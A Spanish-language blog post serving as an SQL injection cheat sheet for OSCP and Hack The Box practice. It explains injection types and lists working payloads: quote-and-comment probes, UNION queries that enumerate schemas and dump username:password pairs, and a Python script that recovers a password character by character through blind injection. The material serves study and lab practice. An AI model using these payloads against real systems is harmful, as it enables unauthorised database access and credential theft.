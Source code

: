 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#identificar_la_inyeccion">Identificar la inyeccion</a>
- <a href="#consultas_basicas">Consultas basicas</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
SQL (Structured Query Language) Injection, comunmente llamado SQLi, es un ataque sobre aplicaciones web que tienen comunicacion con servidores de base de datos que tiene como objetivo realizar consultas maliciosas o fuera de permisos. 
Cuando una aplicacion web se comunica con la base de datos gracias a la informacion pasada por algun campo de entrada para el usuario y no es validada propiamente esta informacion, corre potencialmente la posibilidad de que un atacante pueda ejecutar la consulta y asi robar, borrar o alterar la informacion.
Esto atenta contra los principios de disponibilidad, confidencialidad e integridad de la informacion y es importante su atencion a esta vulnerabilidad web tan antigua. 

El objetivo de este post es agilizar la busqueda de posibles entradas en inyecciones posibles que he visto para entrar en sql y poder tambien almacenar descriptivamente la estructura de sql para enumerar informacion de las bases de datos; ya que en el OSCP no esta permitido el uso de sqlmap y asi tambien ayudarme en la practica de esta intrusion.

## [](#header-2)<a id="tipos_respuestas">Identificando Tipos de respuestas</a>
### [](#header-3)<a id="In-Band SQL Ijection">In-Band SQL Ijection</a>
Este es el tipo mas facil de detectar y explotar por que hace referencia al mismo metodo de comunicacion que es usado para hacer la explotacion de la vulnerabilidad, como por ejemplo descubriendo la inyeccion de SQL y en el mismo website poder extraer la indormacion.

### [](#header-3)<a id="Error-Based">Error-Based SQL Ijection</a> 
Este tipo de inyeccion es la mas util para obtener facilmente informacion sobre la base de datos por medio de mensajes de error que son mostrados directamente en el navegador.


### [](#header-3)<a id="Union-Based">Union-Based SQL Ijection</a>
Este tipo de inyeccion utiliza el operador UNION de SQL junto con un SELECT para mostrar resultados adicionales en la pagina


## [](#header-2)<a id="identificar_la_inyeccion">Identificar la inyeccion</a>
 En esta seccion pondre algunas de las tipicas formas de pasar algunos filtros para las inyecciones de SQL

Podemos intentar primero confirmar la existencia de la vulnerabilidad en SQL con simplemente:

 ```s
 ' -- -
 )' -- -

'; #

  ' #
 )' #

  ' ;
 )' ;

 -- -Para obtener el numero de columnas podemos intentar un 
 ') order by 3 -- -
 
 ```

## [](#header-2)<a id="consultas_basicas">Consultas basicas</a>
Lo primero que tenemos que hacer es ejecutar una sentencia que nos muestre mas informacion si que exista error en nuestra syntax con la funcion UNION. Como por ejemplo:

```SQL
1 UNION SELECT 1
```

Si existe un error con la sentencia anterior, significara que el numero de columnas es diferente al que hemos probado, asi que podemos intentar un:

```SQL
1 UNION SELECT 1,2
```

El mismo error, significara que tendremos que aumentar igualmente el numero de columnas.
Ahora lo que queremos es sacar la primera consulta con informacion, la cual podemos tener cambiando el 1 por el 0 de la manera siguiente:

```SQL
0 UNION SELECT 1,2,3
```

El siguiente ejemplo es aplicable en la maquina Overflow de Hack the Box.

En este caso la informacion se listara en el campo 3, ya que es el que esta libre para mostrar la informacion.

 ```SQL
-- - Para listar las bases de datos podemos hacer un:
union select 1,2,database()

-- - Para listar las tablas dentro de una bd podemos hacer un:
union select 1,2,table_name from information_schema.tables where table_schema=\"cmsmsbd"\ limit {numero de posicion de la tabla},1-- -

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

-- - Para listar las columnas dentro de una tabla podemos hacer un:
union select 1,2,column_name from information_schema.columns where table_schema=\"cmsmsbd"\ and table_name=\"cms_users"\ limit {numero de posicion de la columna},1-- -

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

-- - Para listar los datos de una columna dentro de un mismo campo podemos hacer un:
union select 1,2,group_concat(username, 0x3a, password) from cmsmsdb.cms_users -- -
union select 1,2,sitepref_value from cmsmsdb.cms_siteprefs -- -

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

-- - Para listar la informacion de una tabla completa 
select * from tablename;
 ```

Programa de Python para encontrar contrasenas

```py
import json
import requests

def sql_injection_advance_5():
    alphabet_index = 0
    alphabet = 'abcdefghijklmnopqrstuvxyz'
    password_index = 0
    password = ''

    headers = {
        'Cookie': ''
    }

    while True:
        payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index])

        data = {
            'username_reg' : payload,
            'email_reg': 'a@a',
            'password_reg': 'a',
            'confirm_password_reg': 'a'
        }

        r = requests.put(LINK, headers=headers, data=data)

        try:
            response = json.loads(r.text)
        except:
            print("Error en JSESSIONID, lo encontraras cuando estes logeado")
            return
        
        if "already exists please try to register with a diferent username" not in response['feedback']:
            alphabet_index += 1
            if alphabet_index > len(alphabet) - 1:
                return
        else:
            password += alphabet[alphabet_index]
            print(password)
            alphabet_index = 0
            password_index += 1

sql_injection_advance_5()
```